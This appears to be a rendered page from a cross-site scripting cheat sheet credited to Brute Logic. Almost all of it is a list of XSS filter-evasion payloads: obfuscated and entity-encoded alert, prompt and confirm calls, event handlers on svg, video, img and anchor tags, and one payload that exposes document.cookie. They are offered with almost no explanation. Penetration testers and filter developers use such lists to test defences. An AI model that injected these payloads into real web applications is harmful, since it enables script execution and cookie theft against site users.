 ```

[1].map(confirm)'ale'+'rt'()a&Tab;l&Tab;e&Tab;r&Tab;t(1)prompt&lpar;1&rpar;prompt&#40;1&#41;prompt%26%2300000000000000000040;1%26%2300000000000000000041;(prompt())(prompt``)

<svg onload=prompt%26%230000000040document.domain)>

<svg onload=prompt%26%23x000000028;document.domain)>

<svg/onrandom=random onload=confirm(1)>

<video onnull=null onmouseover=confirm(1)>

<a id=x tabindex=1 onbeforedeactivate=print(`XSS`)></a><input autofocus>

:javascript%3avar{a%3aonerror}%3d{a%3aalert}%3bthrow%2520document.cookie

<img ignored=() src=x onerror=prompt(1)>
```

Reference:
- [Brute Logic](https://brutelogic.com.br/)
